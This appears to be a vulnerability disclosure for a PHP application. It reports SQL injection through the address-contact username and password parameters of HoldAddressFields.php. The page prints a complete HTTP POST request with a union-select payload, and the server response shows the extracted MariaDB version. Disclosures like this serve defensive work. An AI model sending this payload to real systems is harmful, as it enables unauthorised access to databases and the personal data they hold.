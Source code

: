# ![#f03c15](https://via.placeholder.com/15/f03c15/000000?text=+) `Description`

Because of lacking of sanitizer of input data, attacker can injection malicious sql into query by control parameters such as `ADDR_CONT_USRN`, `ADDR_CONT_PSWD` or `SECN_CONT_USRN`, `SECN_CONT_PSWD` in file `HoldAddressFields.php`.


### ![#c5f015](https://via.placeholder.com/15/c5f015/000000?text=+) `Request`

```
POST /HoldAddressFields.php HTTP/1.1
Host: 172.16.0.12:2222
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: vi,vi-VN;q=0.9,fr;q=0.8,en-US;q=0.7,en;q=0.6,sm;q=0.5,la;q=0.4,zh-CN;q=0.3,zh-TW;q=0.2,zh;q=0.1
Cookie: cywg_2132_saltkey=E2w57uH2; cywg_2132_lastvisit=1630101103; cywg_2132_ulastactivity=6590uIjzBHML3smc7veG8yziPxJyaiN4jgoE9aN3L3FvOCr3Ov1_; ORRL_2132_saltkey=SSddxNX7; ORRL_2132_lastvisit=1630117184; ORRL_2132_ulastactivity=4e4933KaEc2d5jrijCQZlYd-PcZ8j470p8v4gqPXPHDs6JlJdGR4; ORRL_2132_forum_lastvisit=D_1_1630131788D_index_1630131832; PHPSESSID=i3j7fp3hcjbmot1d60daol514a
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

ADDR_CONT_USRN=123&ADDR_CONT_PSWD="+union+select+1,2,3,4,version(),6,7,8,9--+-
```

### ![#1589F0](https://via.placeholder.com/15/1589F0/000000?text=+) `Response`

```
HTTP/1.1 200 OK
Date: Wed, 01 Sep 2021 12:38:58 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.4.21
X-Powered-By: PHP/7.4.21
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 1372
Connection: close
Content-Type: text/html; charset=UTF-8





Array
(
    [ADDR_PRIM_L1] => 
    [ADDR_PRIM_L2] => 
    [ADDR_PRIM_CITY] => 
    [ADDR_PRIM_STATE] => 
    [ADDR_PRIM_ZIP] => 
    [ADDR_PRIM_BUSNO] => 
    [ADDR_PRIM_BPU] => 
    [ADDR_PRIM_BDO] => 
    [ADDR_SAME_HOME] => 
    [ADDR_SAME_AS] => 
    [ADDR_MAIL_L1] => 
    [ADDR_MAIL_L2] => 
    [ADDR_MAIL_CITY] => 
    [ADDR_MAIL_STATE] => 
    [ADDR_MAIL_ZIP] => 
    [ADDR_CONT_RSHIP] => 
    [ADDR_CONT_FIRST] => 
    [ADDR_CONT_LAST] => 
    [ADDR_CONT_HOME] => 
    [ADDR_CONT_WORK] => 
    [ADDR_CONT_CELL] => 
    [ADDR_CONT_MAIL] => 
    [ADDR_CONT_CUSTODY] => 
    [ADDR_CONT_PORTAL] => 
    [ADDR_CONT_USRN] => 123
    [ADDR_CONT_PSWD] => 10.4.20-MariaDB
    [ADDR_CONT_SAHA] => 
    [ADDR_CONT_ADNA] => 
    [ADDR_CONT_LIN1] => 
    [ADDR_CONT_LIN2] => 
    [ADDR_CONT_CITY] => 
    [ADDR_CONT_STAT] => 
    [ADDR_CONT_ZIP] => 
    [CHK_HOME_ADDR_PRIM] => 
    [SECN_CONT_RSHIP] => 
    [SECN_CONT_FIRST] => 
    [SECN_CONT_LAST] => 
    [SECN_CONT_HOME] => 
    [SECN_CONT_WORK] => 
    [SECN_CONT_CELL] => 
    [SECN_CONT_MAIL] => 
    [SECN_CONT_CUSTODY] => 
    [SECN_CONT_PORTAL] => 
    [SECN_CONT_USRN] => 
    [SECN_CONT_PSWD] => 
    [SECN_CONT_LIN1] => 
    [SECN_CONT_LIN2] => 
    [SECN_CONT_CITY] => 
    [SECN_CONT_STAT] => 
    [SECN_CONT_ZIP] => 
    [CHK_HOME_ADDR_SECN] => 
    [SELECTED_PRIMARY] => 
    [SELECTED_SECONDARY] => 
)


```


### ![#1589F0](https://via.placeholder.com/15/008080/000000?text=+) `PoC`:

![poc](https://user-images.githubusercontent.com/17811861/131673842-3ed048a9-e433-4ebb-806b-52a8f773ec67.png)
